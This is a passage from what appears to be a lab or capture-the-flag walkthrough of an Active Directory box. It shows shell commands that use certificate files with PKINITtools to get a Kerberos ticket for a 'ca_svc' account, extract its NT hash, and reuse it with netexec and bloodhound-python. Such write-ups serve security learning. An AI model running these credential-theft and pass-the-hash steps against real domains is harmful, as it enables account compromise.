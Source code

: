 
##### 2. Requesting a TGT for `ca_svc` with PKINITtools `getgtgkinit`: {#2-dot-requesting-a-tgt-for-ca-svc-with-pkinittools-getgtgkinit}

Now we perform the same process again to be able to extract their hash by using the `.pem` files we have retrieved to export a `.ccache` we can authenticate with.

```shell
python3 /home/kali/windowsTools/PKINITtools/gettgtpkinit.py -cert-pem CACert_cert.pem -key-pem CACert_priv.pem $domain/ca_svc ca_svc.ccache
```

{{< figure src="/ox-hugo/2025-06-05-064207_.png" >}}


##### 3. Load retrieved `.ccache` into Memory: {#3-dot-load-retrieved-dot-ccache-into-memory}

Next we will load the `.ccache` into our `KRB5CCNAME` variable as we will need this for next step:

```shell
export KRB5CCNAME=./ca_svc.ccache
```


##### 4. Requesting the `ca_svc` user hash with PKINITtools `getnthash`: {#4-dot-requesting-the-ca-svc-user-hash-with-pkinittools-getnthash}

Extract the NTHash for the `ca_svc` user:

```shell
python3 /home/kali/windowsTools/PKINITtools/getnthash.py -key d482c9ee7d8bb9950ad6a150dc2ebd2cfef26eed370b16fc48fb903d90c55e2e $domain/CA_SVC
```

{{< figure src="/ox-hugo/2025-06-05-064350_.png" >}}

Validate the retrieved hash.

```shell
netexec smb $box -u $user -H $hash --shares
```

{{< figure src="/ox-hugo/2025-06-05-064733_.png" >}}


### Re-run python-bloodhound As `ca_svc`: {#re-run-python-bloodhound-as-ca-svc}

It's always good to re-run bloodhound as any new users we have.

```shell
bloodhound-python -d $domain -ns $box -c All -u $user --hashes \:$hash
```

+Note+: No additional results were found.


## 4. Privilege Escalation: {#4-dot-privilege-escalation}
